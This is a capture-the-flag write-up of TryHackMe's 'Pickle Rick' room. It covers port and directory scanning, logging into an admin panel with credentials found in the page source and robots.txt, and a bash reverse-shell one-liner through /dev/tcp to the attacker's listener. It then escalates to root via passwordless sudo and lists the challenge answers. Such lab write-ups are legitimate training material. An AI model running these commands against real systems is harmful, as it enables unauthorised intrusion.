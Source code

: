 ## Pickle Rick - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/picklerick)

<i>This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP</i>

**IP: 10.10.236.115**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Web <br>

**Tools Used**: Nmap, Gobuster, Nikto<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Let's start with Nmap, Gobuster and Nikto.

  ```
  nmap -sC -sV -T5 -p- 10.10.236.115

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 ab:3e:21:3f:47:cf:4a:e5:b8:c1:6a:37:b3:96:4a:29 (RSA)
  |   256 67:53:84:0b:75:97:8c:78:82:75:1a:ac:93:67:2d:fd (ECDSA)
  |_  256 14:0d:74:ad:9e:75:00:44:88:6d:26:8b:a2:b9:db:01 (ED25519)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: Rick is sup4r cool
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.236.115/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 278]
  /.hta                 (Status: 403) [Size: 278]
  /.htpasswd            (Status: 403) [Size: 278]
  /assets               (Status: 301) [Size: 315] [--> http://10.10.236.115/assets/]
  /index.html           (Status: 200) [Size: 1062]
  /robots.txt           (Status: 200) [Size: 17]
  /server-status        (Status: 403) [Size: 278]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```

  ```
  nikto -url http://10.10.236.115/

  - Nikto v2.5.0
  ---------------------------------------------------------------------------
  + Target IP:          10.10.236.115
  + Target Hostname:    10.10.236.115
  + Target Port:        80
  + Start Time:         2025-05-09 20:02:25 (GMT1)
  ---------------------------------------------------------------------------
  + Server: Apache/2.4.41 (Ubuntu)
  + /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
  + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
  + No CGI Directories found (use '-C all' to force check all possible dirs)
  + Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
  + /: Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
  + /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
  + OPTIONS: Allowed HTTP Methods: HEAD, GET, POST, OPTIONS .
  + /login.php: Admin login page/section found.
  + 8074 requests: 0 error(s) and 7 item(s) reported on remote host
  + End Time:           2025-05-09 20:09:51 (GMT1) (446 seconds)
  ---------------------------------------------------------------------------
  + 1 host(s) tested
  ```
  
- Honestly this is the first time that `nikto` was actually usefull lol, it found login page. Beside that, in source code of main page you can find username.

  ```
    <!--

    Note to self, remember username!

    Username: R1ckRul3s

    -->
  ```
  
- In `robots.txt` I found `Wubbalubbadubdub` so I tried using that as SSH password but it didn't work. Since nikto actually did it's job for once I tried same credentials on admin login page. It worked!

---

## ⚙️ Shell Access

- Now, here comes my favourite part, REVERSE SHELLS! OK, so in admin page you have option to run commands. Unfortunately, when you use `cat` it won't work, that's a sign to upload reverse shell.

  ```
  ls 

  Sup3rS3cretPickl3Ingred.txt
  assets
  clue.txt
  denied.php
  index.html
  login.php
  portal.php
  robots.txt
  
  cat Sup3rS3cretPickl3Ingred.txt
  Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
  ```
  
- I tried php reverse shell first and it didn't work, but bash shell did. Start a listener and upload this one liner in admin panel.

  ```
  bash -c 'bash -i >& /dev/tcp/[YOUR-THM-IP]/4444 0>&1' 

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.236.115] 50424
  bash: cannot set terminal process group (1033): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@ip-10-10-236-115:/var/www/html$ whoami
  whoami
  www-data
  ```
  
- Of course that I have to switch to my beloved putty shell, that's not even a question, let's go find those ingredients!

  ```
  python3 -c 'import pty,os,sys; pty.spawn("/bin/bash")'
  CTRL-Z
  stty raw -echo; fg
  export TERM=xterm
  ```

---

## 🧍 User Privilege Escalation

- Wellp, at first I started enumerating the machine with `find` and `grep` in order to get those files but that took soooooo long that I didn't even let it finish, so I started looking for them manually.
  
- First one is already there, just read it and second one is in `/home/rick`.

  ```
  www-data@ip-10-10-236-115:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt 
  mr. meeseek hair 
  
  www-data@ip-10-10-236-115:/var/www/html$ cat clue.txt 
  Look around the file system for the other ingredient.

  www-data@ip-10-10-236-115:/home/rick$ cat 'second ingredients' 
  1 jerry tear
  ```

---

## 👑 Root Privilege Escalation

- After finding first two ingredients I had a feeling that third one is in root directory, so I ran `sudo -l` as always and guess what I found?

  ```
  www-data@ip-10-10-236-115:/home/ubuntu$ sudo -l
  Matching Defaults entries for www-data on ip-10-10-236-115:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User www-data may run the following commands on ip-10-10-236-115:
      (ALL) NOPASSWD: ALL
  ```
  
- YEP! We can use any sudo command without password. Just switch to root and read the last ingredient.

  ```
  www-data@ip-10-10-236-115:/$ sudo su
  root@ip-10-10-236-115:/# cd /root
  root@ip-10-10-236-115:~# ls -al
  total 36
  drwx------  4 root root 4096 Jul 11  2024 .
  drwxr-xr-x 23 root root 4096 May  9 18:46 ..
  -rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
  -rw-------  1 root root  168 Jul 11  2024 .bash_history
  -rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
  -rw-r--r--  1 root root  161 Jan  2  2024 .profile
  drwxr-xr-x  4 root root 4096 Jul 11  2024 snap
  drwx------  2 root root 4096 Feb 10  2019 .ssh
  -rw-------  1 root root  702 Jul 11  2024 .viminfo
  root@ip-10-10-236-115:~# cat 3rd.txt 
  3rd ingredients: fleeb juice
  ```
  
- See ya in the next one, Wubbalubbadubdub! 🥒

---

## 🏁 Flags

- **What is the first ingredient that Rick needs?**: `mr. meeseek hair`
- **What is the second ingredient in Rick’s potion?**: `1 jerry tear`
- **What is the last and final ingredient?**: `fleeb juice`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing really, I'm literally proud of nikto for doing it's job lol.`

- What did I learn?
  `To always try different things`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
